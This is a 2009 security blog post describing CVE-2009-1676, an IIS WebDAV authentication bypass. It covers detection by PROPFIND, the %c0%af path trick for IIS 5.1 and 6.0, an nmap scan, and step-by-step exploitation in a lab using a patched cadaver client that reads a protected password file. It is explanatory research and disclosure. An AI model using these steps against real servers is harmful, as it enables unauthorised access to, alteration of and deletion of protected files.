 ```yaml
---
id: 297
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:10:43-05:00'
author: Andrew
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=297'
permalink: '/?p=297'
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability ([CVE-2009-1676](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676)) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is \_not\_ protected then it's time to break out the funky cold medina and have some fun.

## Detecting if WebDAV is enabled

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2  
\* IIS 5.0/Windows 2000 SP4

On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

```

PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

<?xml version="1.0" encoding="utf-8"?>
<propfind xmlns="DAV:">
<prop>
<getcontentlength xmlns="DAV:"/>
<getlastmodified xmlns="DAV:"/>
<executable xmlns="http://apache.org/dav/props/"/>
<resourcetype xmlns="DAV:"/>
<checked-in xmlns="DAV:"/>
<checked-out xmlns="DAV:"/>
</prop>
</propfind>
```

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.

## Checking if a server is vulnerable

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2

Tested not working on  
\* IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.

## Finding a vulnerable server

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2

Tested not working on

- IIS 5.0/Windows 2000 SP4

Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

```

> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

## Exploiting it!

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called [cadaver](http://www.webdav.org/cadaver/), and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) and after hacking away at it for awhile, we came up with [a little patch](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch) that makes it quite easy to exploit a server. Check [the patch itself](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch) for the gritty details but basically it does the following:

1\) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)  
2\) Append the header "Translate: f" to every request (otherwise get and probably others won't work)  
3\) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the [cadaver-0.23.2-h4x.patch](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch) and apply it to the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) from the [cadaver website](http://www.webdav.org/cadaver/). Here's the commands:

```

> mkdir cadaver-h4x
> cd cadaver-h4x
> wget http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch
--snip--
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1  ./configure
--snip--
> make
--snip--
```

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

```

> ./cadaver xxx.xxx.xxx.xxx
```

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

```

dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
```

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:  
\* CD  
\* LS  
\* MOVE  
\* PUT  
\* GET  
\* CAT  
\* DELETE

Oddly enough, the **COPY** command does **NOT** work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca